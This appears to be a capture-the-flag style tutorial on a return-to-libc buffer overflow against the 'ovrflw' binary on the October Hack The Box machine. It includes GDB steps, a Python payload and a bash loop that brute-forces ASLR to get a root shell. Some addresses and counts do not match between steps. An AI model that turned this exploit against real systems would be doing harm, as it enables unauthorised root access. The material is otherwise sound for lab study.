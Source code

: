 # Buffer Overflows

## Return Oriented Programming (ROP) Buffer Overflow
The following commands can be used in a Return Oriented Programming (ROP) buffer overflow attack to bypass NX/DEP protection.  The following example makes use of the `ovrflw` ELF Linux binary found on the October Hack The Box machine.  All tools necessary are built into Kali Linux.

The ovrflw binary is 32 bit and has NX enabled and the system has Address Space Layout Randomisation enabled.


### Finding the point that overwrites EIP CPU Register

The following command can be used to generate a 500 character non repeating pattern to overlow the program:

```/usr/bin/msf-pattern_create -l 500```

The resulting output can be fed as an input to the binary:

```./ovrflw Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A...```

You can increase the length of the pattern generated by the `/usr/bin/msf-pattern_create` command and send it to the program, until the program generates a `segmentation fault` error.

Upon the generation of a `segmentation fault`being thrown by the overflw program, it can then be ran within the debugger GDB to find what section of the pattern overwrote the EIP CPU register:

```gdb ./ovrflw```

Now a break point for the `main()` function can be added, the the program will pause once run within GDB.  The following code will add the break point:

```(gdb) b main```

The program can now be run by pressing the "r" key followed by the none repeating string of characters (in this case 500):

```r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4A...```

To continue the exection of the program the "c" key can be pressed.  This will result in a "
Program received signal SIGSEGV, Segmentation fault." error.

To view the curent values of the registers within GDB use the command:
`info registers`

Take the value held in the EIP register.  In this case it is `0x64413764`.  This value can be passed into msf-pattern_offset to find out the offset necessary to crash the program:

```msf-pattern_offset -q 0x64413764```

This showed the offset at the point EIP was overwritten was 112.  This means that 112 characters can be passed to the program to generate a segmentation fault.  

### Exploiting the buffer overflow using python and bash

Now three values are necessary to exploit the buffer overflow.  The addresses of system, exit and "/bin/sh" - in that order.

GDB can be used to find the address of system by running the following commands
``` gdb ./ovrflw 
b main
r
p system 
```

The `p system` command will give the address of where `system` is located, which in this case is `0xb765c310`.

Now to get the offset of "/bin/sh". GDB can be used to search for this value using the find command:

`find 0xb7646310, +9999999, "/bin/sh"`

The command will start at the system address and look for the pattern "/bin/sh" and then return the address offset once found.  The +999.. tells the command how far to look ahead from the system address. This can be incremented until the address is found.

The address of "/bin/sh" was found to be `0xb777ebac`.

The exit address can be found using the following command in GDB:

`p exit `

This gives the exit address 0xb764f260

The exploit will be 112\*characters + system address + exit address + "/bin/sh" address.  The following python exploit code contains the aforementioned structure.  Note that the struct library is used to put the data in little endian format, denoted by the "<I".  For instance, this would convert the exit address 0xb764f260 to 0x60f264b7.


#### Python Exploit Code
Save the code into a file named exploit.py and make it executable using `chmod +x`.
```#!/usr/bin/python

import struct

system_mem = struct.pack("<I", 0xb7646310)
binsh_mem = struct.pack("<I", 0xb7768bac)
exit_mem = struct.pack("<I", 0xb7639260)

payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab"
payload += system_mem
payload += exit_mem
payload += binsh_mem

print(payload)
```

### Bypassing Address Space Layout Randomisation (ASLR)

ASLR randomises the position of the executable and the libraries it uses in Random Access Memory (RAM), in an effort to secure against buffer overflows.  

This can be bypassed by executing a program a number of times, until the same address values are reused.  The following Linux bash command will run the `ovrflw` program and give the python script as the input.  The program will be executed 512 times, in an effort to trigger the buffer overlow using the addresses taken from within GDB:

```for i in `seq 0 500`; do /usr/local/bin/ovrflw `python exploit.py`;done```

Once the buffer overflow is successful, the "/bin/sh" shell will be ran as the root user, due to the SUID bit being set on the binary.

### Second Exploit Method Using Python



